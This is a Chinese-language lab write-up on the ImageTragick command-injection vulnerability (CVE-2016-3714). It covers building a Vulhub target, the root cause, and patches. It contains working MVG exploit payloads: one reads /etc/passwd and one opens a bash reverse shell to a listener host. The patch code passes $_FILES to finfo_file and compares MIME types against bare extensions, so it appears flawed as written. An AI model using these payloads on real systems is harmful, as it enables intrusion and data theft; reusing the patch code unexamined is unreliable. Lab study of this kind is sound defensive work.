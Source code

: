 # Imagetragick 命令执行漏洞（CVE-2016–3714）

## 一.靶场环境构建

#### 1.使用 Vulhub 一键搭建漏洞测试靶场

- 安装Docker，docker-compose

```
sudo apt-get update && apt-getinstall docker.io
sudo curl -L https://github.com/docker/compose/releases/download/1.18.0/docker-compose-`uname -s`-`uname -m` -o /usr/local/bin/docker-compose

```
- 启动Docker服务

```
sudo service docker start
```
- 拉取vulhub

```
git clone https://github.com/vulhub/vulhub.git 
```
- 自动化编译docker环境

```
docker-compose up -d
```
#### 2.环境完成测试


- 本地web服务器访问：已可访问服务器下的已有页面

![](pic/access.PNG)

- upload.php:将上传的文件传入PHP的imagick扩展，触发漏洞

## 二.漏洞利用实战

**1. docker容器内使用imagemagick convert转换命令，触发漏洞：**

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0"|ls -l")'
pop graphic-context
```
-  嵌入命令执行成功

![](pic/test4.PNG)


**2. 本机内测试已有的简单poc:vul.jpg**

```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'https://127.0.0.1/x.php?x=`cat /etc/passwd > /tmp/success`'
pop graphic-context
```
- 复制/etc/passwd文件到tmp目录。访问demo.php后，在docker容器中查看temp目录，成功获得success文件

![](pic/test3.PNG)

**3. 建立TCP连接，反弹shell：**
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://"|/bin/bash -i >& /dev/tcp/172.17.0.1/8889 0>&1")'
pop graphic-context

```
- 测试前，为了兼容性，先把靶机shell解释器改为bash：

```
sudo docker-compose exec apache rm -rf /bin/sh
sudo docker-compose exec apache ln -s /bin/bash /bin/sh
```
- 本机nc命令监听TCP 8889端口，成功反弹shell，可看到容器内安装的imagemagick版本是特定的漏洞版本

![](pic/test5.PNG)


## 三.漏洞原理分析

- ImageMagick最开始在MagickCore/constitute.c的ReadImage函数中解析图片，当图片地址以https://开头时，就会调用InvokeDelegate。MagickCore/delegate.c定义了委托，最终InvokeDelegate调用ExternalDelegateCommand执行命令。

- CVE-2016–3714即是利用了ImageMagick传递委托命令时的文件名过滤不足。委托的本质是调用外部的lib来处理文件。在ImageMagick的默认配置文件：delegates.xml里定义了如下委托
```
 <delegate decode="https" command="&quot;curl&quot; -s -k -L -o &quot;%o&quot; &quot;https:%M&quot;"/>
```
- 它在解析https图片的时候，使用了curl命令将其下载，占位符%M放在curl的最后一个参数内command的位置。只需使用反引号（`）或闭合双引号拼接命令行，传入了系统的system函数，就可执行任意命令。ImageMagick默认支持mvg格式，以**文本形式**写入矢量图的内容，可以包含https处理过程

[参考来源：https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html](https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html)

## 四.漏洞影响分析

**漏洞的 CVSS 评分分析**



## 五.漏洞缓解

**检测并阻止「漏洞利用」行为**


## 六.漏洞修补

**1. 在上传图片时需要通过文件内容来判断用户上传的是否为真实图片类型。**

- 处理图片前，是图片头，如果图片头不是你想要的格式，那么就不调用ImageMagick处理图片。php使用Fileinfo 获取文件MIME类型，更改web站点uplaod.php页面代码：

- 原码仅仅检测了后缀名，导致伪装格式图片上传
![](pic/defend3.PNG)

- 改为
```
$finfo    = finfo_open(FILEINFO_MIME);
$mimetype = finfo_file($finfo, $_FILES);
if (!in_array($mimetype, ['gif', 'png', 'jpg', 'jpeg'])) {
    die('Unsupported filetype uploaded.');
}
```
- 测试。检测出上传图片格式出错
![](pic/defend3.PNG)

**2. 在delegates.xml中删除对HTTPS方式的支持**

- 更改<delegate decode="https" command="&quot;curl&quot; -s -k -L -o &quot;%o&quot; &quot;https:%M&quot;"/> 的"M"

- 容器本地convert测试。命令解析出错

![](pic/defend2.PNG)

- 外部宿主机web访问upload.php上传图片，漏洞仍能触发，此处存在疑问，php使用的是imagick扩展API，调用Imagick类的构造。此处仍能触发漏洞，说明PHP imagick扩展与imagemagick独立？

**3. 使用策略配置文件来禁止解析https等敏感操作**
- 进入容器内部 
```
sudo docker-compose exec apache bash
```

- 在policy.xml（位于/usr/local/etc/ImageMagick-6）最后一行进行增加下列配置:

```
<policymap>
<policy domain="coder" rights="none" pattern="EPHEMERAL" />
<policy domain="coder" rights="none" pattern="URL" />
<policy domain="coder" rights="none" pattern="HTTPS" />
<policy domain="coder" rights="none" pattern="MVG" />
<policy domain="coder" rights="none" pattern="MSL" />
</policymap> 
```
- 再次尝试触发漏洞：容器本地convert测试，漏洞没有触发
 
![](pic/defend1.PNG)

- 外部宿主机wed访问upload.php上传图片，漏洞仍能触发，同上存在同样的

[参考来源：https://access.redhat.com/security/vulnerabilities/ImageTragick](https://access.redhat.com/security/vulnerabilities/ImageTragick)

[https://imagetragick.com/](https://imagetragick.com/)
